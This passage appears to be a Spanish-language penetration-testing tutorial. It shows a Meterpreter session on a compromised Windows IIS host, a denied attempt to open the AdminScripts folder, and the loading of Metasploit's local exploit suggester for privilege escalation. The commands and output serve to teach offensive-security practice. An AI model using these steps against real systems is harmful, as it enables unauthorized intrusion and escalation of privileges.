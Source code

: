Ahora que hemos establecido al menos un nivel de privilegio en el sistema, es hora de intensificar ese privilegio. Entonces, buscamos algo interesante y en el`C:\Inetpub\`Ubicación, encontramos una carpeta interesante llamada`AdminScripts`. Sin embargo, desafortunadamente, no tenemos permiso para leer lo que hay dentro de él.

### **MSF: interactuar con el objetivo**

Meterpréter

```
c:\Inetpub>dir

dir
 Volume in drive C has no label.
 Volume Serial Number is 246C-D7FE

 Directory of c:\Inetpub

04/12/2017  05:17 PM    <DIR>          .
04/12/2017  05:17 PM    <DIR>          ..
04/12/2017  05:16 PM    <DIR>          AdminScripts
09/03/2020  01:10 PM    <DIR>          wwwroot
               0 File(s)              0 bytes
               4 Dir(s)  18,125,160,448 bytes free

c:\Inetpub>cd AdminScripts

cd AdminScripts
Access is denied.

```

Podemos decidir fácilmente ejecutar el módulo de Suggester de exploit local, uniéndolo a la sesión de meterpreter actualmente activa. Para hacerlo, en el fondo de la sesión de meterpreter actual, buscamos el módulo que necesitamos y establecemos la opción de sesión en el número de índice para la sesión de meterpreter, vinculando el módulo a él.

### **MSF - Manejo de sesión**

Meterpréter

```
meterpreter > bg

Background session 1? [y/N]  y

msf6 exploit(windows/iis/iis_webdav_upload_asp) > search local_exploit_suggester

Matching Modules
================

#  Name                                      Disclosure Date  Rank    Check  Description   -  ----                                      ---------------  ----    -----  -----------
   0  post/multi/recon/local_exploit_suggester                   normal  No     Multi Recon Local Exploit Suggester

msf6 exploit(windows/iis/iis_webdav_upload_asp) > use 0
msf6 post(multi/recon/local_exploit_suggester) > show options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits
```